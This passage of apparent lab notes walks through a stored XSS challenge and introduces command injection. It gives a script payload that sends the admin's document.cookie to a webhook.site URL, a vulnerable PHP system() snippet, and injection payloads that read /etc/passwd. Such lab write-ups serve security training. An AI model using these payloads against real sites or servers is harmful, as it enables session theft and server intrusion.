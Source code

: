   This indicates a stored XSS vulnerability, as the input from the `Personal` container is reflected and visible in the `Work` container.

## XSS - Challenge Walkthrough

In this challenge, we need to understand how to use a Webhook to capture and observe the payload in action.

1. Set Up Your Webhook: Use a service like [Webhook.site](Webhook.site) to generate a unique Webhook URL.
2. Add the following payload in the message field where XSS can be injected:
   ```html
   <script>
     let i = new Image();
     i.src = "https://webhook.site/<webhook_id>?" + document.cookie;
   </script>
   ```
3. Monitor the Webhook: Keep an eye on the Webhook service dashboard. Open `http://localhost/labs/x0x03_admin.php`. When the admin panel refreshes or interacts with the payload, you will receive requests at your Webhook URL.
4. Capture the Admin’s Cookie: The Webhook requests will contain the `document.cookie` from the admin’s session. Review these requests to obtain the admin’s cookie.

## Command Injection - Introduction

Command injection is a vulnerability that allows an attacker to manipulate an application into executing arbitrary system commands on the server. This occurs when an application passes unsafe data, often user input, to a system shell.

For example, a vulnerable web application might take a file path from a query parameter and use it to read a file, like so:

```
$file = $_GET['file'];
system("cat /var/www/html/$file");
```

If an attacker uses a payload such as `; ls -la` in the `file` parameter, they can make the application execute an additional command that lists all files in the current directory.

Command injection can often lead to:

- Remote code execution
- Denial of Service
- Data breach
- Privilege escalation

Source: [AppSecExplained](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/command-injection)

## Command Injection - Basics

- There is a field to enter web URLs, which returns a response code on the screen. It also displays the command executed in the backend to retrieve the result.
- Test for command injection vulnerability: Use the payload `; sleep 10`. If the response takes 10 seconds, it confirms that we can inject commands.
- Gather information about the machine: Use `; uname -a; asd`. `asd` is a harmless string used to ensure the command injection works correctly without causing syntax errors. The output reveals `Linux 002aabef9f88 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64 GNU/Linux`.
- Retrieve passwords: `; cat /etc/passwd; asd`
